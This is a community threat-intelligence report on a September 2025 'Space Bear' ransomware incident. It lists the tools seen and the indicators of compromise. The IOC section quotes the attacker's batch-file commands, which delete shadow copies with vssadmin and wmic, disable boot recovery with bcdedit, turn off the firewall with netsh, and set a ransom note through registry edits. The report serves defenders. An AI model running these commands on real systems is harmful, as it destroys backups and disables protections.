

# Community Report 008 - Space Bear September 2025 

### Contributor Details
```
- Real Name: Ben Folland
- Online Handle: @polygonben
- Employer: Huntress
```
---
### Adversary
```
- Named adversary: Space Bear
```
---
### Incident Details
```
- Time of Incident: September 2025
- Victim Sector: N/A
- Victim Country: USA
- Victom Size: N/A
```
---
### Observed Tools
 
| Discovery | RMM Tools | Defense Evasion | Credential Theft | OffSec | Networking | LOLBAS | Exfiltration |
|---|---|---|---|---|---|---|---|
|  |  | Defender Control |  |  |  | bcedit |  |
|  |  |  |  |  |  | fsutil |  |
|  |  |  |  |  |  | netsh |  |
|  |  |  |  |  |  | wmic |  |
|  |  |  |  |  |  | VmConnect  |  |
|  |  |  |  |  |  | vssadmin |  |

---
### Indicators of Compromise (IOCs)
```
Process Chain / Command Lines:

- C:\driver\backup.bat
  - wmic SHADOWCOPY DELETE
  - vssadmin  Delete Shadows /All /Quiet
  - bcdedit  /set {default} bootstatuspolicy ignoreallfailures
 

- C:\driver\SCdel.bat
  - vssadmin delete shadows /all
  - netsh advfirewall set allprofiles state off

- C:\driver\LockScreen.bat
  - REG ADD "HKLM\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Policies\System" /v legalnoticecaption /t REG_SZ /d "ATTENTION!!! Read Before Login" /f
  - REG ADD "HKLM\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Policies\System" /v legalnoticetext /t REG_SZ /d "Your system has been hacked !!! Your system files are encrypted and uploaded to our servers. An attempt to recover files on your own will result in their complete loss. You urgently need to notify the management of your company about the incident. Mail for communication: [REDACTED] ONLY WE have the recovery keys, before agreeing on the cost from the data recovery companies, ask OUR price" /f

Staging:
- C:\driver\

Ransomware Binary:
- C:\driver\mkp_visual.exe
```
---
#### Any Related Sources
| Date Published | Report |
|---|---|
| N/A | N/A |
---
#### Summary Diagram

